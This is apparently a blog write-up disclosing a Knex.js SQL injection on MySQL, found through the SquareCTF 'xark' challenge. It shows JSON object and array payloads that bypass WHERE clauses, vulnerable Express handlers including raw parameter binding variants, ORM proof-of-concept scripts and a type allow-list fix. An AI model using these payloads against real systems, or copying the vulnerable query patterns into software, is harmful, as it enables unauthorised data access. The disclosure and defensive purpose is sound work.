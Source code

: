 # Overview

[Knex.js](https://github.com/knex/knex) has a **limited SQL injection vulnerability** that can be exploited to ignore the `WHERE` clause of a SQL query. The only prerequisite is that the backend database management system is MySQL. The vulnerability was brought to my attention by [Alok Menghrajani's](https://www.quaxio.com/) CTF challenge called [`xark`](https://squarectf.com/2022/xark.html) during [SquareCTF 2022](https://squarectf.com/2022/), that showcased the SQLi vulnerability that was first reported [6+ years ago](https://github.com/knex/knex/issues/1227). In Alok's CTF challenge, the latest version of Knex.js was used (version 2.3.0 at the time of writing this article) and the vulnerable code snippet is shown below.

```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

The following screenshot was my payload that I used to exploit the SQLi vulnerability in `xark` to modify the `WHERE` statement to query using a column called `message` by setting the type to an `Object`. **Knex.js does not reject `Objects` or `Array` variables that get inserted into SQL queries and results in a valid MySQL query!**

![](./images/xark-payload-by-msg.png)

Otherwise, if the column is set as an index the following SQLi payload returns rows by index value instead of string comparison.

![](./images/xark-payload-by-index.png)

**After further investigating the vulnerability I found that using `where` from Knex.js is vulnerable to SQLi, even with parameter binding!**

This vulnerability affects thousands of NodeJS packages that do not reject `Object` and `Array` column values and use `knex` to build SQL queries.

---

# Table of Contents

[TOC]

---

# Introduction

*Before I begin, I do apologise for any grammar mistakes. I had COVID at the time of writing this article and I will fix it up later.*

Last weekend, I participated in the 2022 Square CTF to satiate my crippling addiction hacking websites. It was a pretty fun CTF event and I enjoyed completing the web challenges.

[Alok Menghrajani's](https://www.quaxio.com/) challenge named [xark](https://squarectf.com/2022/xark.html) piqued my interest since it was a classic NodeJS SQL injection vulnerability, *but the code did not look it was using `knex` insecurely (code snippet below)*.

```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

Knex.js version 2.3.0 was used in the challenge that was the latest version for the module, and the last [SQL injection vulnerability for `knex` was reported for versions `<0.19.5`](https://security.snyk.io/package/npm/knex).

At first, I thought Alok snuck in a sneaky 0day into their CTF challenge. However, it turns out the vulnerability has been disclosed for **over 6 years**...

![](./images/it-was-a-lot-worst-than-it-appears.png)

*[The vulnerability was first disclosed in February 2016](https://github.com/knex/knex/issues/1227)*
![](./images/the-first-issue.png)

I felt compelled to write this article to raise awareness about the SQLi vulnerability in Knex.js. The vulnerability has already been publicly disclosed, so attention needs to be drawn to it to have it fixed. That's why I am skipping responsibly disclosing the vulnerability and going straight to public disclosure.

---

# Explaining the SQLi Vulnerability

## Writeup for [xark](https://squarectf.com/2022/xark.html)

To explain the SQLi vulnerability in Knex.js, I will begin by doing a writeup for Alok's `xark` challenge.

Starting the challenge, we are presented with a website for recording and viewing *anonymous crushes*.

![](./images/xark-start.png)

We were also provided with the following code snippet and can see the flag is inserted into the `crushes` table.

<details><summary><b>Source Code Provided with the Challenged</b></summary>
```js
const express = require('express');
require('express-async-errors');
config = require('config');

if (process.env.DATABASE_HOST !== null) {
    console.log(`Found custom database host: ${process.env.DATABASE_HOST}`);
    config.knex.connection.host = process.env.DATABASE_HOST;
}

const app = express();
const port = 3001;
const knex = require('knex')(config.get('knex'));

knex.schema.hasTable('crushes').then(function(exists) {
    if (!exists) {
        console.log("crushes table doesn't exist, initializing...");
        knex.schema.createTable('crushes', function(table) {
            table.increments('id').primary();
            table.string('from').notNullable();
            table.string('to').notNullable();
            table.string('message').notNullable();
            table.index(['to']);
        }).then();
        knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',
        }).then();
    }
});

app.use(express.static('html'));
app.use(express.json());
app.use(express.urlencoded({
    extended: false
}));

app.get('/debug', async (req, res) => {
    // poor man's clone
    const c = JSON.parse(JSON.stringify(config.get('knex')));
    if (c.connection.password) {
        c.connection.password = "*******";
    }
    res.status(200).send(c);
})


app.post('/record', async (req, res) => {
    if (req.body.from && req.body.to && req.body.message) {
        await knex('crushes').insert({
            from: req.body.from,
            to: req.body.to,
            message: req.body.message,
        });
        res.status(200).send({});
    } else {
        res.status(400).send({});
    }
});

app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});

app.use((err, req, res, next) => {
    console.error(err);
    res.status(400).send({
        error: err.message
    });
});

app.listen(port, () => {
    console.log(`Listening on port ${port} in ${process.env.NODE_ENV}`);
});
```
</details>
<br />

So immediately I knew the goal was to exploit an SQL injection vulnerability to trick the web application to return the flag. First I researched vulnerabilities for Knex.js, but found that the last SQLi vulnerability was for versions `<0.19.5`. So at first I thought the entrypoint was not exploiting Knex.js.

However, the CTF challenge had such limited functionality the only way to retrieve the flag is exploiting some SQLi vulnerability in Knex.js. I saw that the `express` web application also accepted the `application/json` content type, so I simply tried modify the `to` POST parameter to an `Object`.

![](./images/xark-error-msg.png)

![](./images/sussy-gorilla.gif)

That error message was a **huge indicator that I could do something funky with the filter in the `WHERE` clause**. I knew from reading the source code that the flag was another column named `message`, so I simply modified my payload to try querying using `message` column instead of `to`.

![](./images/xark-payload-by-msg.png)

![](./images/shocked-monkey.gif)

*Wot...*

After the CTF event was done, another competitor pointed out that you can also return a specific rows by index.

![](./images/alternative-method.png)

---

## How does the vulnerability work?

As noted in the [original Github issue](https://github.com/knex/knex/issues/1227), the vulnerability is only exploitable if Knex.js is used to connect to MySQL and is not exploitable for other database management systems (*I have not verified this claim*). 

So let's see what the actual queries look like that is being sent to the MySQL database. I will continue using the `xark` challenge for explaining how the SQLi vulnerability in Knex.js works. First you can configure the MySQL container to log all queries to a file do this by running the following script on the container.

```bash
#!/bin/bash

mkdir -p /var/log/mysql;
if [ ! -f /var/log/mysql/all.log ]; then
    touch /var/log/mysql/all.log
fi

chmod 777 /var/log/mysql/all.log
mysql -u root -ppass -e "SET global log_output = 'FILE'; SET global general_log_file='/var/log/mysql/all.log'; SET global general_log = 1;"
```

Now all SQL queries will be logged at `/var/log/mysql/all.log`.

### How SQLi Using a Different Column Works

Let's rerun the `{"to":{"message":"This is the flag!"}}` exploit and see the following query that is sent to the MySQL server.

```sql
select * from `crushes` where `to` = `message` = 'This is the flag!' limit 50
```

Keys in the user input are wrapped with the `` ` `` character, which is a special character for defining quoted identifiers in MySQL queries. A quoted identifier is a way for wrapping a table, column or database name with quotes. Now the interesting thing with MySQL, is if you remove the quoted identifiers the query fails.

![](./images/qi-with-without.png)

*Why does this MySQL query work with the quoted identifiers?*

To be honest, I don't have a good answer. I speculate it is because the quoted identifiers tells the MySQL server that `` `to` `` and `` `message` `` are column names, and since the `crushes` table has those columns it does not cause an SQL error. Also experimenting with how MySQL will handle the SQL query, it appears that the MySQL server behaves *weirdly* when a filter has multiple `=` characters. For the `xark` challenge I found that the first row is returned, but when I tested using a different script then the entire table was dumped. If you have a good explaination for this, please let me know.

### SQLi Using Index Value

Now let's investigate how the payload `{"to":[0]}` works by analysing the resulting query that Knex.js builds.

```sql
select * from `crushes` where `to` = 0 limit 50
```

We can see in the source code for `xark` that the the table index is set to the `to` column.

```js
...
knex.schema.createTable('crushes', function(table) {
    table.increments('id').primary();
    table.string('from').notNullable();
    table.string('to').notNullable();
    table.string('message').notNullable();
    table.index(['to']);
}).then();
...
```

Since the `to` column is also the table index, we can query the `to` column using [**index values**](https://dev.mysql.com/doc/refman/8.0/en/mysql-indexes.html) as well as the string value.

It appears that Knex.js does *some filtering* on the user input. So payloads such as `{"to":[0]}` are rejected and trying to query for multiple index values causes a SQL syntax error.

![](./images/syntax-error-multi-index.png)

---

## Binding Parameters Does Not Prevent the SQLi

Alok's `xark` challenge and the [original Github](https://github.com/knex/knex/issues/1227) issue all use the [object syntax for calling `where`](https://knexjs.org/guide/query-builder.html#where). There other methods for calling `where` that weren't tested ([screenshot of the API documentation from Knex.js](https://knexjs.org/guide/query-builder.html#where)).

![](./images/calling-where.png)

So I decided to modify source code of `xark` to test if the SQLi vulnerability is only exploitable if the input is an object or if the `where` method is vulnerable to SQLi no matter how `where` is used.

*Testing key value input*
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where("to", req.body.to)
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

*Testing using key value and operator*
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where("to", "=", req.body.to)
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

However, I was still able to exploit the SQLi vulnerability.

Therefore, using `where` from Knex.js is vulnerable to SQLi.

It did pique my interest if Knex.js does implement parameter binding that *should* prevent the SQLi vulnerabilities, because if so then this vulnerability would be an issue of bad documentation for explaining how to use Knex.js securely.

[Turns out you can use parameter binding using `raw`. They even say in the documentation that it prevents SQLi (screenshot below).](https://knexjs.org/guide/raw.html#raw-parameter-binding)

![](./images/raw-docs.png)

So let's see if I can still exploit the SQLi vulnerability even with prepared statements.

*Testing using prepared statements*
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where(
                knex.raw("?? = ?", ["to", req.body.to])
            )
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

*This is still vulnerable to SQLi...*

I even tried the following implementation to see if it would prevent SQLi. **It didn't...**

```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const whereStatement = ":column: = :value"
        const crushes = await knex('crushes')
            .select()
            .where(knex.raw(
                whereStatement, {
                        column: "to", 
                        value: req.body.to
                    }
            ))
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

The only implementation that I found that was not exploitable was when the column name was hardcoded into the query string.

*Causes an SQL syntax error since the column name is not wrapped with quoted identifiers.*
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where(
                knex.raw("to = ?", [req.body.to])
            )
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

In conclusion...

**Knex.js is vulnerable to SQLi even if you use the raw parameter binding!**

---

# Impact to Other NodeJS Packages

Knex.js is a tool for NodeJS developers to easily build SQL queries for multiple DBMS and the responsibility for security is also on those developers to ensure that they are securely using Knex.js.

**This leads to the next question, are NodeJS Object Relational Mappers (ORM) securely using Knex.js?**

In collaboration with Alok and my friend [sradley](https://github.com/anvbis), we tested the following NodeJS ORMs and found that most were vulnerable to the SQLi vulnerability.

| ORM Package | Version | Is Currently Maintained | Vulnerable to SQLi |
| - | - | - | - |
| [Bookshelf.js](https://bookshelfjs.org/) | v1.2.0 | False | **TRUE** |
| [Objection.js](https://vincit.github.io/objection.js/) | v3.0.1 |  False | **TRUE** |
| [mikro-orm](https://github.com/mikro-orm/mikro-orm) | v5.5.3 | True | False |

For each of the tests, we had already created a table called `users` with the following rows.

| `name` | `secret` |
| - | - |
| admin | you should not be able to return this! |
| guest | hello world |

<details><summary><b>Confirming the Vulnerability in <a href="https://bookshelfjs.org/">Bookshelf.js</a></b></summary>
```js

const knex = require('knex')({
    client: 'mysql2',
    connection: {
        host: '127.0.0.1',
        user: 'root',
        password: 'topsecret',
        database: 'testdb',
        charset: 'utf8'
    }
})

const bookshelf = require('bookshelf')(knex)

const User = bookshelf.model('User', {
    tableName: 'users'
})

new User({secret: {"name": "admin"}}).fetch().then((user) => {
    console.log(user)
})
```
</details>

<details><summary><b>Confirming the Vulnerability in <a href="https://vincit.github.io/objection.js/">Objection.js</a></b></summary>
```js

const { Model } = require('objection');
const knex = require('knex')({
    client: 'mysql2',
    connection: {
        host: '127.0.0.1',
        user: 'root',
        password: 'topsecret',
        database: 'testdb',
        charset: 'utf8'
    }
})

Model.knex(knex)

class User extends Model {
    static get tableName() {
        return 'users'
    }
}

User.query()
    .where({secret: {"name": "admin"}})
    .then((user) => console.log(user))
```
</details>

The above approaches provides an easy way to test if you are securely handling `Objects` while using Knex.js.

---

# Recommendations

The key issue that enables exploiting the SQLi vulnerability is that Knex.js does not reject an input if it is an **`Array`** or an **`Object`**. [JavaScript is a dynamically typed language, so users can manipulate the type of inputs](https://cheatsheetseries.owasp.org/cheatsheets/Nodejs_Security_Cheat_Sheet.html#perform-input-validation).

So if you are either a maintainer of Knex.js or using the module in your project, **reject all inputs that will be inserted into a SQL query that are either an `Array` or `Object` type!**

For an example, you can use the [JavaScript operator `typeof`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/typeof) to reject any unexpected input types. The below code snippet is an example for only allowing numbers, strings and booleans (**never allow `object`**).

```js
const allowedTypes = [
    "number",
    "string",
    "boolean"
]

if (!allowedTypes.includes(typeof userInput)) {
    throw "Invalid type detected!"
}
```

For an example, I added the above allow list to `xark`.

```js
...
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const allowedTypes = [
            "number",
            "string",
            "boolean"
        ]
        
        if (!allowedTypes.includes(typeof req.body.to)) {
            return res.status(400).send({
                error: "Bugger off hacker!"
            });
        }

        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
...
```

Now when I retry the SQLi exploit it gets rejected.

![](./images/bugger-off-hacker.png)

---

# Acknowledgements

A huge thank you to [Alok Menghrajani](https://www.quaxio.com/) for bringing this vulnerability to my attention and [TheThing](https://github.com/TheThing) for originally disclosing the vulnerability. Also thank you to [`sradley`](https://github.com/anvbis) for investigating the impact of this vulnerability in other NodeJS packages that use Knex.js.

**I wish all of the Knex.js maintainers the best for finding a suitable patch for this vulnerability.**